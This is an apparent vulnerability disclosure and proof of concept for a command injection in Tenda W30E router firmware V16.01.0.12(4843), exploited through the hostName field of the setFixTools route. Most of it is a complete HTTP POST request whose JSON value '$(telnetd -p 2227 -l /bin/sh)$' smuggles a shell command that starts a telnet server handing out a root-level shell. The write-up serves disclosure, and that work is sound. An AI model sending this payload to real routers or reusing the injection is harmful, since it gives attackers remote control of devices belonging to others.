

# Tenda W30E Command Injection

**Vender** ：Tenda

**Firmware version**:V16.01.0.12(4843)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda W30E V16.01.0.12(4843) devices. An HTTP request parameter is used in command string construction within the handler function of the setFixTools route. This could lead to Command Injection via Shell Metacharacters.


When we send packets, the router will be shell

```
POST /goform/module?1698566636867 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/plain, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 94
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: bLanguage=cn; sessionid=W30EV2.0:0.171.1:9692e3

{"setFixTools":{"networkTool":1,"hostName":"$(telnetd -p 2227 -l /bin/sh)$","packageSize":32}}

```




